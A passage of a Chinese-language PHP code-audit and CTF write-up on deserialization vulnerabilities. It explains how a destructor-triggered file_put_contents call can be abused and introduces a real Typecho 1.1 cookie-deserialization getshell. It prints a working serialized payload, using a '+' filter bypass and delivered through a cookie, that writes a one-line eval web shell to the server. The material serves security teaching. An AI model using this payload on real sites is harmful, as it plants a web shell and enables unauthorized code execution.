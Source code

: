 绕过了过滤以后，接下来考虑怎样对反序列化进行利用，反序列化本质是将序列化的字符串还原成对应的类实例，在该过程中，我们可控的是序列化字符串的内容，也就是对应类中变量的值。我们无法直接调用类中的函数，但PHP在满足一定的条件下，会自动触发一些函数的调用，该类函数，我们称为魔术方法。通过可控的类变量，触发自动调用的魔术方法，以及魔术方法中存在的可利用点，进而形成反序列化漏洞的利用。

在代码31行，对象销毁时会调用 **createCache()** 函数，函数将 `$template` 中的内容放到了 `$cacheFile` 对应的文件中。 **file_put_contents()** 函数，当文件不存在时，会创建该文件。由此可构造一句话，写入当前路径。

 `$cacheFile` 和 `$template` 为类变量，反序列化可控，由此，构造以下反序列化内容，别忘了加'+'号

![5](CTF%20总结/PHP-Audit-Labs/Part1/Day11/files/5.png)

放入cookie需进行URL编码

```php
a:1:{i:0;O:+8:"Template":2:{s:9:"cacheFile";s:10:"./test.php";s:8:"template";s:25:"<?php eval($_POST[xx]);?>";}}
```

文件成功写入：

![6](CTF%20总结/PHP-Audit-Labs/Part1/Day11/files/6.png)

## 实例分析

本次实例分析，选取的是 **Typecho-1.1** 版本，在该版本中，用户可通过反序列化Cookie数据进行前台Getshell。该漏洞出现于 **install.php** 文件 **230行** ，具体代码如下：

![7](CTF%20总结/PHP-Audit-Labs/Part1/Day11/files/7.png)

